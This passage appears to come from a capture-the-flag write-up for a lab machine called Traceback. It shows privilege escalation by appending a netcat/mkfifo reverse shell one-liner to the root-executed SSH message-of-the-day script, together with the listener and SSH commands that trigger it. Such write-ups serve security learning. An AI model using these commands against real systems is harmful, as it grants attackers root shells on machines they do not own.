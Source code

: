What we can gather from this is the following:

When we login with SSH the code in the 00-header file gets executed, and since the SSH Server always runs as root, this means that this code is being executed as root.

If we insert code in this file to run a reverse shell, we should get a shell as root.

However this file gets restored every 30 seconds. 
What we need to do is:

1 - Start a netcat listener
2 - Insert malicious reverse shell code in /etc/update-motd.d/00-header file
3 - Start a new ssh session in the machine to execute the code before it gets restored

If we do all of this correctly, we will get a shell as root

Local Machine: 
``` bash
$ nc -lvnp 1337
```
Now the next 2 steps need to be done quickly

Remote Server (sysadmin session):
``` bash
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 1337 >/tmp/f" >> /etc/update-motd.d/00-header
```

Local Machine:
``` bash
$ ssh -i id_rsa sysadmin@10.10.10.181
```

We should now have a shell as root on our netcat listener
![](Traceback/rootshell.png)

Now just get the root flag
![](Traceback/rootflag.png)
